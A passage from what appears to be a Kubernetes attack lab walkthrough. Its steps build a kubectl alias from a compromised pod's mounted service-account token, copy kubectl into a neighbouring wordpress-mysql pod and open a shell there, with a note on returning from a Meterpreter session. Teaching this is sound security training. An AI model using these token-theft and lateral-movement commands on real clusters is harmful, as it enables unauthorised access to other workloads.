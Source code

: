     puts the contents of the token file into the alias.

43. Now check out your handiwork by running the `alias` command:

    ```shell
    alias
    ```

44. Next, test out the alias by trying to list pods in your current namespace:

    ```shell
    kubectl get pods
    ```

45. Let's make sure we know which pod we're in by running:

    ```shell
    hostname
    ```

46. Now, let's try running an interactive shell in the other pod in our namespace. Since these pods are put in place by a Kubernetes deployment, they don't have exactly the same name on your machine as ours, so here's a command to stuff the other pod's name into a variable:

    ```shell
    pod=`kubectl get pods | grep wordpress-mysql | awk '{print $1}'`
    ```

47. Let's copy `kubectl` into that pod:

    ```shell
    kubectl cp kubectl $pod:/tmp
    ```

48. Let's use `kubectl exec` to run a command in that mysql pod, using `-it` to make it interactive:

    ```shell
    kubectl exec -it $pod -- /bin/bash
    ```

49. Confirm we've switched pods by checking the hostname:

    ```shell
    hostname
    ```

    **Note**:  From this point on, if you have to hit `Ctrl-C`, here's what you can type to get back from the Meterpreter into the `wordpress-mysql` pod.

    ```shell
    shell
    bash -i
    d=`mount | grep kubernetes | awk '{print $3}'`
    alias kubectl="`pwd`/kubectl --server=https://10.96.0.1:443 --token=`cat $d/token` --certificate-authority=$d/ca.crt \
    -n `cat $d/namespace`"
    pod=`kubectl get pods | grep wordpress-mysql | awk '{print $1}'`
    kubectl exec -it $pod -- /bin/bash
    hostname
    ```
